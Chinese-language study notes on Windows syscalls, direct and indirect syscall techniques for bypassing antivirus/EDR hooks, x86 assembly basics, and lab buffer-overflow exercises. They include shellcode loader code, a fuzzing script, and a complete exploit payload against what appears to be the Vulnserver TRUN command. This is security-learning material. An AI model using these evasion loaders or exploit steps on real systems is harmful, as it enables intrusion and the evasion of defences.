# 2023-10-17
SYSCALL
https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/
Windows环安全体系
Ring0和Ring3分别代表内核层和用户层

Windows API
Windows提供给使用者的各种接口，对应的DLL一般是
User32.dll
Kernel32.dll
Advapi.dll
这些接口的Windows API是不带前缀的
Native API
更低级的接口，原生API。可以直接对系统层进行操作，这些函数带有前缀Nt、Zw，例如
NtCreateFile
NtWriteVirtualMemory
ZwCreateFile
对应的DLL是
ntdll.dll
win32u.dll
syscall
Native API的syscall是syscall stub的一部分， syscall stub是一组汇编指令，对于不同Native API的syscall stub，移动到eax的寄存器，会有着不同的SSN（系统服务编号）
也可以说是用户层到系统层的桥梁
SSDT(系统服务描述表)
KiSystemCall 用于根据SSN在SSDT中查找对应的系统函数代码
Hook
内联API hook Inline API Hooking
大多数杀毒、EDR会采用的hook方式，在原生API执行syscall之前将其重定向至杀毒
IAT导入地址表hook Import Address Table (IAT) Hooking
SSDT hook SSDT Hooking (Windows Kernel)
在内核层的hook方式，在windows引入KPP（Kernel Patch Protection）保护后禁止了这种技术
重要的是
- 反病毒软件会在不同的dll中hook不同的API
- 反病毒软件不可能hook所有API，这对系统的性能有所影响
直接syscall
直接系统调用是不依赖系统存根的syscall，而是自己写汇编指令去syscall

间接syscall
间接syscall是直接执行到syscall前一步，再使用函数原本的syscall继续执行，伪装正常程序。

UINT_PTR sysAddrNtAllocateVirtualMemory; //定义syscall指针类型
int main() {
//找到NtAllocateVirtualMemory函数的地址
UINT_PTR pNtAllocateVirtualMemory = (UINT_PTR)GetProcAddress(hNtdll, "NtAllocateVirtualMemory");
//由于NtAllocateVirtualMemory函数后的12个字节便是syscall指令，pNtAllocateVirtualMemory+0x12可计算出syscall指令的位置，这就是与直接syscall不同的地方——直接syscall是直接写汇编手动syscall，这里是找到系统本身的syscall地址用系统的syscall。得到sysAddrNtAllocateVirtualMemory后放入asm中
sysAddrNtAllocateVirtualMemory = pNtAllocateVirtualMemory + 0x12;
EXTERN sysAddrNtAllocateVirtualMemory:QWORD ; The actual address of the NtAllocateVirtualMemory syscall in ntdll.dll.
.CODE ; Start the code section
NtAllocateVirtualMemory PROC
mov r10, rcx ; Move the contents of rcx to r10. This is necessary because the syscall instruction in 64-bit Windows expects the parameters to be in the r10 and rdx registers.
mov eax, 18h ; Move the syscall number into the eax register.
jmp QWORD PTR [sysAddrNtAllocateVirtualMemory] ; Jump to the actual syscall.
NtAllocateVirtualMemory ENDP ; End of the procedure.
END ; End of the module
练习
调试进程，找到指定函数SSN
找到函数的SSN
NtAllocateVirtualMemory
使用x查询内存地址，使用u查询函数的syscall
先用x查ntdll中的NtAllocateVirtualMemory内存地址，在用u查内存地址00007ffe`9794f040d的syscall，eax后面的编号就是SSN
0:015> x ntdll!NtAllocateVirtualMemory
00007ffe`9794f040 ntdll!NtAllocateVirtualMemory (NtAllocateVirtualMemory)
0:015> u 00007ffe`9794f040
ntdll!NtAllocateVirtualMemory:
00007ffe`9794f040 4c8bd1 mov r10,rcx
00007ffe`9794f043 b818000000 mov eax,18h
00007ffe`9794f048 f604250803fe7f01 test byte ptr [SharedUserData+0x308 (00000000`7ffe0308)],1
00007ffe`9794f050 7503 jne ntdll!NtAllocateVirtualMemory+0x15 (00007ffe`9794f055)
00007ffe`9794f052 0f05 syscall
00007ffe`9794f054 c3 ret
00007ffe`9794f055 cd2e int 2Eh
00007ffe`9794f057 c3 ret
直接用u指定查函数的syscall
0:015> u NtWriteVirtualMemory
ntdll!NtWriteVirtualMemory:
00007ffe`9794f480 4c8bd1 mov r10,rcx
00007ffe`9794f483 b83a000000 mov eax,3Ah
00007ffe`9794f488 f604250803fe7f01 test byte ptr [SharedUserData+0x308 (00000000`7ffe0308)],1
00007ffe`9794f490 7503 jne ntdll!NtWriteVirtualMemory+0x15 (00007ffe`9794f495)
00007ffe`9794f492 0f05 syscall
00007ffe`9794f494 c3 ret
00007ffe`9794f495 cd2e int 2Eh
00007ffe`9794f497 c3 ret
procmon查看WriteFile的流程
通过过滤进程和WriteFile操作，可以看到notepad进程从用户模式到系统层最后访问磁盘的流程

使用Windows API执行shellcode并动态调试
简单加载器
#include <stdio.h>
#include <windows.h>
// Define the thread function for executing shellcode
// This function will be executed in a separate thread created later in the main function
DWORD WINAPI ExecuteShellcode(LPVOID lpParam) {
// Create a function pointer called 'shellcode' and initialize it with the address of the shellcode
void (*shellcode)() = (void (*)())lpParam;
// Call the shellcode function using the function pointer
shellcode();
return 0;
}
int main() {
// Insert the Meterpreter shellcode
unsigned char code[] = "\xfc....";
void* exec = VirtualAlloc(0, sizeof(code), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
SIZE_T bytesWritten;
WriteProcessMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);
HANDLE hThread = CreateThread(NULL, 0, ExecuteShellcode, exec, 0, NULL);
// This ensures the main thread doesn't exit before the shellcode has finished running
WaitForSingleObject(hThread, INFINITE);
// Return 0 as the main function exit code
return 0;
}
在符号处可以看到导入的windows api  点击转入导入地址可以查看对应汇编代码 
再继续跳转，来到了对应的原生API 
继续跳转，可以看到原生API对应的syscall 
如果在WriteProcessMemory处下断点，继续运行程序，在第R8可以找到shellcode的内存位置

使用原生API执行shellcode并动态调试
定义指针类型函数
VirtualAlloc对应的原生函数NtAllocateVirtualMemoryWriteProcessMemory对应的原生函数NtWriteVirtualMemoryCreateThread对应的原生函数NtCreateThreadExWaitForSingleObject对应的原生函数NtWaitForSingleObject
如果要找哪个Windows API对应的哪个原生函数，可以使用动态调试去找
定义指针类型函数
typedef NTSTATUS(WINAPI* PNTALLOCATEVIRTUALMEMORY)(HANDLE, PVOID*, ULONG_PTR, PSIZE_T, ULONG, ULONG);
typedef NTSTATUS(NTAPI* PNTWRITEVIRTUALMEMORY)(HANDLE, PVOID, PVOID, SIZE_T, PSIZE_T);
typedef NTSTATUS(NTAPI* PNTCREATETHREADEX)(PHANDLE, ACCESS_MASK, PVOID, HANDLE, PVOID, PVOID, ULONG, SIZE_T, SIZE_T, SIZE_T, PVOID);
typedef NTSTATUS(NTAPI* PNTWAITFORSINGLEOBJECT)(HANDLE, BOOLEAN, PLARGE_INTEGER);
获取原生函数的内存地址
打开ntdll.dll的句柄，通过原生函数的名称去在内存中查找地址
PNTALLOCATEVIRTUALMEMORY NtAllocateVirtualMemory = (PNTALLOCATEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtAllocateVirtualMemory");
PNTWRITEVIRTUALMEMORY NtWriteVirtualMemory = (PNTWRITEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWriteVirtualMemory");
PNTCREATETHREADEX NtCreateThreadEx = (PNTCREATETHREADEX)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtCreateThreadEx");
PNTWAITFORSINGLEOBJECT NtWaitForSingleObject = (PNTWAITFORSINGLEOBJECT)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWaitForSingleObject");
#include <stdio.h>
#include <windows.h>
// Define typedefs for function pointers to the native API functions we'll be using.
// These match the function signatures of the respective functions.
typedef NTSTATUS(WINAPI* PNTALLOCATEVIRTUALMEMORY)(HANDLE, PVOID*, ULONG_PTR, PSIZE_T, ULONG, ULONG);
typedef NTSTATUS(NTAPI* PNTWRITEVIRTUALMEMORY)(HANDLE, PVOID, PVOID, SIZE_T, PSIZE_T);
typedef NTSTATUS(NTAPI* PNTCREATETHREADEX)(PHANDLE, ACCESS_MASK, PVOID, HANDLE, PVOID, PVOID, ULONG, SIZE_T, SIZE_T, SIZE_T, PVOID);
typedef NTSTATUS(NTAPI* PNTWAITFORSINGLEOBJECT)(HANDLE, BOOLEAN, PLARGE_INTEGER);
int main() {
// Insert Meterpreter shellcode here.
unsigned char code[] = "";
// Here we load the native API functions from ntdll.dll using GetProcAddress, which retrieves the address of an exported function
// or variable from the specified dynamic-link library (DLL). The return value is then cast to the appropriate function pointer typedef.
PNTALLOCATEVIRTUALMEMORY NtAllocateVirtualMemory = (PNTALLOCATEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtAllocateVirtualMemory");
PNTWRITEVIRTUALMEMORY NtWriteVirtualMemory = (PNTWRITEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWriteVirtualMemory");
PNTCREATETHREADEX NtCreateThreadEx = (PNTCREATETHREADEX)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtCreateThreadEx");
PNTWAITFORSINGLEOBJECT NtWaitForSingleObject = (PNTWAITFORSINGLEOBJECT)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWaitForSingleObject");
// Allocate a region of virtual memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode.
// 'exec' will hold the base address of the allocated memory region.
void* exec = NULL;
SIZE_T size = sizeof(code);
NtAllocateVirtualMemory(GetCurrentProcess(), &exec, 0, &size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
// Copy the shellcode into the allocated memory region.
SIZE_T bytesWritten;
NtWriteVirtualMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);
// Execute the shellcode in memory using a new thread.
HANDLE hThread;
NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, GetCurrentProcess(), exec, exec, FALSE, 0, 0, 0, NULL);
// Wait for the thread to finish executing.
NtWaitForSingleObject(hThread, FALSE, NULL);
return 0;
}

使用直接syscall执行shellcode并动态调试
定义原生函数的结构体
新建一个头文件，定义需要使用的原生函数的结构体
#ifndef _SYSCALLS_H // If _SYSCALLS_H is not defined then define it and the contents below. This is to prevent double inclusion.
#define _SYSCALLS_H // Define _SYSCALLS_H
#include <windows.h> // Include the Windows API header
// The type NTSTATUS is typically defined in the Windows headers as a long.
typedef long NTSTATUS; // Define NTSTATUS as a long
typedef NTSTATUS* PNTSTATUS; // Define a pointer to NTSTATUS
// Declare the function prototype for NtAllocateVirtualMemory
extern NTSTATUS NtAllocateVirtualMemory(
HANDLE ProcessHandle, // Handle to the process in which to allocate the memory
PVOID* BaseAddress, // Pointer to the base address
ULONG_PTR ZeroBits, // Number of high-order address bits that must be zero in the base address of the section view
PSIZE_T RegionSize, // Pointer to the size of the region
ULONG AllocationType, // Type of allocation
ULONG Protect // Memory protection for the region of pages
);
// Declare the function prototype for NtWriteVirtualMemory
extern NTSTATUS NtWriteVirtualMemory(
HANDLE ProcessHandle, // Handle to the process in which to write the memory
PVOID BaseAddress, // Pointer to the base address
PVOID Buffer, // Buffer containing data to be written
SIZE_T NumberOfBytesToWrite, // Number of bytes to be written
PULONG NumberOfBytesWritten // Pointer to the variable that receives the number of bytes written
);
// Declare the function prototype for NtCreateThreadEx
extern NTSTATUS NtCreateThreadEx(
PHANDLE ThreadHandle, // Pointer to a variable that receives a handle to the new thread
ACCESS_MASK DesiredAccess, // Desired access to the thread
PVOID ObjectAttributes, // Pointer to an OBJECT_ATTRIBUTES structure that specifies the object's attributes
HANDLE ProcessHandle, // Handle to the process in which the thread is to be created
PVOID lpStartAddress, // Pointer to the application-defined function of type LPTHREAD_START_ROUTINE to be executed by the thread
PVOID lpParameter, // Pointer to a variable to be passed to the thread
ULONG Flags, // Flags that control the creation of the thread
SIZE_T StackZeroBits, // A pointer to a variable that specifies the number of high-order address bits that must be zero in the stack pointer
SIZE_T SizeOfStackCommit, // The size of the stack that must be committed at thread creation
SIZE_T SizeOfStackReserve, // The size of the stack that must be reserved at thread creation
PVOID lpBytesBuffer // Pointer to a variable that receives any output data from the system
);
// Declare the function prototype for NtWaitForSingleObject
extern NTSTATUS NtWaitForSingleObject(
HANDLE Handle, // Handle to the object to be waited on
BOOLEAN Alertable, // If set to TRUE, the function returns when the system queues an I/O completion routine or APC for the thread
PLARGE_INTEGER Timeout // Pointer to a LARGE_INTEGER that specifies the absolute or relative time at which the function should return, regardless of the state of the object
);
#endif // _SYSCALLS_H // End of the _SYSCALLS_H definition
定义原生函数的syscall过程
.CODE ; Start the code section
; Procedure for the NtAllocateVirtualMemory syscall
NtAllocateVirtualMemory PROC
mov r10, rcx ; Move the contents of rcx to r10. This is necessary because the syscall instruction in 64-bit Windows expects the parameters to be in the r10 and rdx registers.
mov eax, 18h ; Move the syscall number into the eax register.
syscall ; Execute syscall.
ret ; Return from the procedure.
NtAllocateVirtualMemory ENDP ; End of the procedure.
; Similar procedures for NtWriteVirtualMemory syscalls
NtWriteVirtualMemory PROC
mov r10, rcx
mov eax, 3Ah
syscall
ret
NtWriteVirtualMemory ENDP
; Similar procedures for NtCreateThreadEx syscalls
NtCreateThreadEx PROC
mov r10, rcx
mov eax, 0C2h
syscall
ret
NtCreateThreadEx ENDP
; Similar procedures for NtWaitForSingleObject syscalls
NtWaitForSingleObject PROC
mov r10, rcx
mov eax, 4
syscall
ret
NtWaitForSingleObject ENDP
END ; End of the module
运行起来后在加载函数中没有几个重要函数 
使用间接syscall执行shellcode并动态调试
流程
- 获取ntdll.dll的句柄
- 初始化原生函数指针地址
- 定义要使用的函数结构体
- 定义要使用的原生函数的syscall的地址指针，并设置从ntdll中获取到的函数指针地址，0x12的偏移量。这是因为要获取函数初始地址到syscall的地址，这也是间接syscall的核心————绕过Win32 API到找原生API的过程，去调用函数原本的syscall，直接syscall则是既绕过Win32 API到找原生API，又绕过函数原生的syscall。

syscall绕过的缺陷
- 由于固定了syscall的调用代码，汇编指令的特征会被静态监测到。
 
- 实现绕过杀软除了使用syscall外，还需要解决其他的问题比如其他api hook问题、shellcode内存分配问题、全栈行为异常问题。简单说是需要结合各种手段模拟出真实的程序运行的内存调用，以达成最好的免杀效果。
汇编
语法风格
根据语法风格分成Intel和AT&T，Windows用的是Inter
Inter和AT&T区别如下
- Inter语法是 <指令 目标,源>；AT&T语法是<指令 源;目标>
- AT&T语法在注册名称之前必须写百分号(%)，数字之前写美元号($)。地址使用圆括号。
- AT&T语法在指令中添加后缀来定义操作数的大小
q - quad 64bits 8bytes
l - long 32bits 4bytes
w - word 16bits 2bytes
b - byte 8bits 1bytes
函数的流程
汇编中的函数特征非常明显，弄清除函数的功能是非常关键的
1. 调用者将被调函数所需的参数放入指定位置，根据调用约定不同，位置不同，有的放入寄存器，有的全放入栈
2. CALL指令跳转到指定函数
3. 被调函数配置一个指针用来保存保持不变的寄存器值
4. 为被调函数局部变量在栈上分配空间，PUSH指令
5. 被调函数执行过程，访问参寄存器的参数，并给寄存器返回结果
6. 被调函数执行完成后，释放栈空间，POP指令
7. 还原第3步中的值
8. 函数返回，RET指令
9. 调用者还原寄存器的值
3-4属于函数序言
6-8属于函数尾声
函数序言和尾声
函数序言(function prolog)是函数开始时的指令序列，为了EBP中的值在函数执行期间保持不变，好让EBP可以用于访问局部变量和参数。它通常看起来像下面的代码片段:
push ebp
mov ebp, esp
sub esp, X
函数尾声释放栈中分配的空间，将EBP寄存器中的值返回到其初始状态，并将控制流返回给调用者
mov esp, ebp
pop ebp
ret 0
函数序言和尾声通常在反汇编程序中检测，用于函数定界
下面是在linux上生产的汇编码 
全局变量和局部变量
在汇编中全局变量会被自动初始化为0，局部变量不会
寄存器
General Purpose Registers (GPR)
RAX - accumulator register 累加器寄存器。通常用于存储函数的返回值
RBX - base register 基础寄存器。有时用作内存访问的基准指针
RDX - data register 数据寄存器
RCX - counter register 有时被称为计数器寄存器。用作循环计数器
RSI - source index 被称为源索引。用于字符串操作的源指针。
RDI - destination index 称为目标索引。在字符串操作中用作目标指针
RSP - stack pointer 栈指针。保存栈顶部的地址。
RBP - base pointer 基指针。保存堆栈底部的地址。
EIP/RIP - Instruction Pointer 指令指针。保存下一行要执行代码的地址
不同位数的寄存器
CPU是一步步进化而来的，所以针对不同位数有不同的寄存器。
R开头的寄存器是64位程序的 大小8字节
E开头的寄存器是32位程序的 大小4字节
A开头的寄存器是16位程序的 大小2字节
在一个64位程序中，同时存在64位、32位、16位、8位寄存器。
比如，64位中RAX的后32位为EAX，后16位为AX（16位为高位AH和低位AL组成）
存储浮点数的寄存器
浮点数值被存储在YMM*寄存器中，对应的32位寄存器是XMM*
存储整形的寄存器
R8 至 R15寄存器用来存储整形
内存数据结构
内存结构
Stack 栈
Heap 堆
.data 包含初始化为非零值的全局和静态数据
.bss 包含未初始化或初始化为零的全局和静态数据
.text 包含程序的代码

上图的介绍
栈 - 存储固定大小数据，后进先出原则，入栈RSP会增加，出栈RSP会减小，RBP始终不变
堆 - 可变的存储空间
程序镜像 - 载入到内存中的PE文件
TEB - 线程环境块
PEB - 进程环境块
栈帧
栈的基础单元
端序
一种内存数据的排列方式，这将影响到调试过程中看到内存的数据顺序问题，默认是采用小端序来在内存中存储数据的，这也就是为什么在内存中看到的数据和实际的数据是相反的 大端序： 小值存高位，大值存低位 小端序： 大值存低位，小值存高位
栈
栈的增长是从大到小的，栈底是大地址，栈顶是小地址。入栈会减小栈顶地址，出栈会增大栈顶地址。 使用无限循环递归会导致栈溢出
void main()
{
main();
}
编译器关闭优化  RSP到最小值了 
指令
直接值、寄存器、内存/内存地址
汇编指令的格式
操作符 目标,源
mov RAX, 5
分号;后面代表注释
常见指令
MOV - 将源操作数移动/存储到目标操作数
LEA - Load Effective Address 加载有效地址，与MOV功能相同，常用来计算地址
POSH - 入栈
POP - 出栈
INC - 加1
DEC - 减1
ADD - 相加，add RAX, RBX 可以看成 RAX += RBX
SUB - 相减，sub RAX, RBX 可以看成 RAX -= RBX
MUL/IMUL - 相乘，MUL是无符号结果，IMUL是有符号结果
DIV/IDIV - 相除，无符号和有符号
AL - eax的低8位
TEST - 按位进行AND操作，根据运算结果设置符号标志位、零标志位和奇偶标志位
CMP - 比较，实际上是减法SUB，不同的是SUB会改变目标值，而CMP不会，CMP改变的是标志位。如CMP RAX, RCX 则是RAX=RAX-RCX，对标志位ZF、SF、CF/OF产生影响
RET - 快速返回
NOP - 填充符
JB - 无符号计算，根据标志位跳转
JL - 有符号计算，小于跳转。标志位跳转，SF<>OF跳转
JLE - 小于等于跳转。看标志位时，ZF=1 或 SF<>OF时 跳转
JE - 等于跳转，ZF为1跳转
TEST - 在两个操作数的对应位之间进行 AND 操作，并根据运算结果设置符号标志位、零标志位和奇偶标志位。
movsxd - 带符号数的扩展。往往是为了从低位往高位扩展时需要，16位扩展到32位
JCC - 是一组指令，根据标志位ZF判断是否跳转，包含JNE、JLE、JNZ等。是用来比较大小的，但是内部逻辑是SUB，然后根据标志位跳转，详细见下图
下面是有符号数的操作，即包含负数比较
JNE - 目标不等于源时跳转。判断是否ZF是否等于1，ZF为1则继续，为0则跳转
JLE - 目标小于等于源时跳转
JGE - 目标大于等于源时跳转
下面是无符号数的操作，即不包含负数比较
JBE - 小于等于跳转，CF=1或ZF=1跳转
JAE - 大于等于跳转，

CALL - 函数调用，相当于PUSH后JMP
RET - 函数返回， 相当于POP后JMP
JMP - 跳转指令
JMP的指令的值以EB开头，EB后面代表跳转的位置，修改EB后面的值为00可以让JMP不跳转而继续执行下一条指令
cdqe - 扩展eax到rax，从32位扩展到64位
指令中的指针
方括号[]中的数据代表的是一个地址，使用LEA来对地址进行操作
lea RAX, [RCX+8] ;这是计算地址的
mov RAX, [RCX+8] ;这是计算值的
标志位
ZF - Zero Flag 在操作结果为零时设置为1。如果操作的结果不为零，则不设置
CF - Carry Flag 无符号数值，产生借位和进位时，设置为1
OF - Overflow Flag 有符号数值，产生借位和错位时，设置为1
SF - Sign Flag 操作结果为负数时，设置为1
AF? - Adjust/Auxiliary Flag 与CF相同，但用于BCD操作（BCD操作是什么操作）
PF - Parity Flag 如果后8位中的1是偶数位，则设置为1
TF - Trap Flag 为1时，允许单步执行程序
DF -
参考资料：https://www.tech-recipes.com/rx/1239/assembly-flags/
汇编中的流程控制
case
通过jmp跳转ecx*4的地址，根据$LN11@f中不同表的值进行分支选择 

For循环
for循环一定有一个被初始化的值作为索引，通常被赋给ESI，然后比较ESI和另外一个值，并会跳转回去
汇编中的算术
乘法通常用加法、减法和左移来替代
左移的原理是，当被乘数能被2除尽时，只需要再最右边加上[被除数/2]数量的0即可，被除数是2、4、8、16、32....这些数字时可以使用左移替代乘法
除法也是类似，但是是右移且低位被丢弃
汇编中的浮点数
x86中的浮点数由FPU来完成处理，ST(0)…ST(7)，有一组可以容纳8*80字节的栈
缓冲区溢出
vscode的选项会防止缓冲区溢出 /rtc堆栈帧运行时检查 /GZ启用堆栈检查(/ rtc)
数组越界读取
#include <stdio.h>
int main()
{
int a[20];
int i;
for (i=0; i<20; i++)
a[i]=i*2;
printf ("a[20]=%d\n", a[20]); //当a数组的索引还没到20时，这里就读取了20
return 0;
};
使用cl直接编译，程序运行结果是
a[20]=1175513387 4610E92B
数组越界写入
#include <stdio.h>
int main()
{
int a[20];
int i;
for (i=0; i<30; i++) //这里循环索引最大是29
a[i]=i; //循环索引赋给了数组的索引，循环索引大于数组索引，导致越界写入。根本不存在a[29]，要如何给a[29]赋值呢？
return 0;
};
一直写入了29个值到栈中，但是程序会在尝试往数组写入a[21]时产生异常 
越界写入利用
影响：越界写入可造成RCE
一个基础的越界写入缓存溢出利用步骤
1. 找到触发缓存溢出的点，也就是找到可对ESP操作的输入点
2. 找到EIP的偏移位置以便修改EIP
3. 找到可重定向代码执行流的指令的地址(jmp esp、ret esp等)
4. 将EIP的值替换为重定向代码执行流语句的地址
5. 找到程序的坏字符
6. 构造没有坏字符的shellcode,在shellcode前用数个nop填充防止重定向指令跳过界
7. 发送payload
练习A
- 找到可控输入点的溢出边界 第一步需要搞清楚多少字节会造成溢出，溢出的边界在哪。 这里用一个简单的控制台程序来作为练习。  用脚本自动化测试这个输入点可以接收多大字节的数据
import socket
import sys
ip = "192.168.14.139"
port = 31337
string = b"\xfc" * 10
s = socket.socket()
s.connect((ip, port))
timeout = 3
s.settimeout(timeout)
while True:
try:
print("Fuzzing with {} bytes".format(len(string)))
s.send(string + b"\x0a\x0d")
string += b"\xfc" * 10
s.recv(1024)
except:
print("Fuzzer crashed at {} bytes".format(len(string)))
sys.exit(0)
s.close()
跑到160字节时程序崩溃 
- 找到EIP的偏移量 EIP/RIP寄存器是指令指针，保存了下一行要执行代码的地址。
由于是160字节程序产生了崩溃，直接自定义一段300字节的数据发送，通过程序崩溃时EIP的值来找到EIP的偏移量 此时EIP的值为39654138 
└─# msf-pattern_offset -l 300 -q 39654138
[*] Exact match at offset 146
偏移量是146字节，也就是说输入点的最大输入是146个字节，在此之后是EIP的地址。此时发送146个字节，并在后面跟上4个字节，就可以控制EIP的值。
由于我在146个字节后发送了4个Z，这里的EIP值是5A5A5A5A

- 查找坏字符 为什么要查找坏字符? 这是因为每个程序的输入点判断不一样，比如有的输入点只允许输入数字，有的程序不允许输入字符。需要找到这些程序不正常处理的坏字符，用这些坏字符之外的字符来生成shellcode，这样可以避免程序因为异常而终止。
在EIP之后发送所有字符来测试坏字符 在0x09后的0x0a变成了0x00，0x0a是一个坏字符。  去掉0x0a后重新发送，循环此步骤以找到所有的坏字符
- 重定向执行流
这是shellcode被执行的关键一步。
找到程序中存在的
jmp esp或者call esp可以让程序跳到esp的位置重新执行，以便让shellcode被执行 通过匹配特征找到了4个jmp esp

地址分别是
f7552677
85102177
c3c12177
f2131f77
将EIP的值替换为f7552677便可以让程序重新执行ESP地址的代码
接着需要在jmp esp后面插入nop，确保jmp之后会执行到shellcode
- 生成shellcode 要注意的 shellcode不能有坏字符 shellcode退出线程,不能退出进程 使用msf生成shellcode
generate EXITFUNC=thread -b "\x00\x0a"

此时完整payload是
146字节随机字符 + 0xf7552677 + 8字节nop + shellcode

练习B
程序运行后的样子
C:\>nc 192.168.14.139 9999
Welcome to Vulnerable Server! Enter HELP for help.
HELP
Valid Commands:
HELP
STATS [stat_value]
RTIME [rtime_value]
LTIME [ltime_value]
SRUN [srun_value]
TRUN [trun_value]
GMON [gmon_value]
GDOG [gdog_value]
KSTET [kstet_value]
GTER [gter_value]
HTER [hter_value]
LTER [lter_value]
KSTAN [lstan_value]
EXIT
某个命令的某些字符串会导致缓存溢出
TRUN 命令后跟/.，之后的字符串到一定数量后会触发溢出

GMON也存在相同问题,溢出到EBP,溢出不到EIP 
KSTET也存在溢出,可覆盖EIP,覆盖不了栈

GTER也存在溢出,可溢出到EIP.但测试之后发现溢出后的可控空间不足 
还是用TRUN测试 测试EIP偏移量
测试坏字符,没有发现0x00外的坏字符

最终的payload是
eip = "\xaf\x11\x50\x62"
nop = "\x90" * 20
all = b"TRUN /./Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Caaabb" + eip + nop + buf

练习C
程序: slmail 5.5版本缓冲区溢出 POP3协议连接，PASS命令后输入点存在缓冲区溢出漏洞

根据作者payload可得知,在PASS命令后插入2606个坏字符字符可导致溢出,EIP偏移量就在2606,之后的数据会溢出到ESP.
如图EIP的值被覆盖为AAAA 
